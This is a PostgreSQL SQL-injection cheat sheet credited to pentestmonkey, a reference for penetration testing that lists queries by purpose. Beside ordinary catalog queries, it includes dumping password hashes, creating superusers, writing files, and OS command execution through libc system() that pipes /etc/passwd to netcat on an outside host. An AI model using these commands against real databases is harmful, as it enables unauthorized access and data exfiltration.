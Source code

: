 # All credits to pentestmonkey
|Description| Command|
|--- |--- |
|Version|SELECT version()|
|Comments|SELECT 1; --comment; SELECT /*comment*/1; |
|Current User|SELECT user; SELECT current_user; SELECT session_user; SELECT usename FROM pg_user; SELECT getpgusername();|
|List Users|SELECT usename FROM pg_user|
|List Password Hashes|SELECT usename, passwd FROM pg_shadow — priv|
|Password Cracker|MDCrack can crack PostgreSQL’s MD5-based passwords.|
|List Privileges|SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user|
|List DBA Accounts|SELECT usename FROM pg_user WHERE usesuper IS TRUE|
|Current Database|SELECT current_database()|
|List Databases|SELECT datname FROM pg_database|
|List Columns|SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)|
|List Tables|SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)|
|Find Tables From Column Name|If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;|
|Select Nth Row|SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from; SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;|
|Select Nth Char|SELECT substr(‘abcd’, 3, 1); — returns c|
|Bitwise AND|SELECT 6 & 2; — returns 2; SELECT 6 & 1; –returns 0|
|ASCII Value -> Char|SELECT chr(65);|
|Char -> ASCII Value|SELECT ascii(‘A’);|
|Casting|SELECT CAST(1 as varchar); SELECT CAST(’1′ as int);|
|String Concatenation|SELECT ‘A’ || ‘B’; — returnsAB|
|If Statement|IF statements only seem valid inside functions, so aren’t much use for SQL injection.  See CASE statement instead.|
|Case Statement|SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; — returns A|
|Avoiding Quotes|SELECT CHR(65)||CHR(66); — returns AB|
|Time Delay|SELECT pg_sleep(10); — postgres 8.2+ only; CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS ‘/lib/libc.so.6′, ‘sleep’ language ‘C’ STRICT; SELECT sleep(10); –priv, create your own sleep function.  Taken from here .|
|Make DNS Requests|Generally not possible in postgres.  However if contrib/dblinkis installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights): SELECT * FROM dblink('host=put.your.hostname.here user=someuser  dbname=somedb', 'SELECT version()') RETURNS (result TEXT); Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”.|
|Command Execution|CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6′, ‘system’ LANGUAGE ‘C’ STRICT; — privSELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080′); — priv, commands run as postgres/pgsql OS-level user|
|Hostname, IP Address|SELECT inet_server_addr(); — returns db server IP address (or null if using local connection); SELECT inet_server_port(); — returns db server IP address (or null if using local connection)|
|Create Users|CREATE USER test1 PASSWORD ‘pass1′; — priv; CREATE USER test1 PASSWORD ‘pass1′ CREATEUSER; — priv, grant some privs at the same time|
|Drop Users|DROP USER test1; — priv|
|Make User DBA|ALTER USER test1 CREATEUSER CREATEDB; — priv; Location of DB files|SELECT current_setting(‘data_directory’); — priv; SELECT current_setting(‘hba_file’); — priv|
|Default/System Databases|template0; template1
|Dollar Strings| Instead of quotes you can alternatively use $$ (duoble-dollar) for quoting stings, of $ (single-dollar) with tag: SELECT $$TEST$$; SELECT $TAG$TEST$TAG$; |
|Write arbitary data to disc | CREATE TEMP TABLE TEST(data text);INSERT INTO TEST(data) VALUES ($$test$$);COPY TEST(data) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$ | 

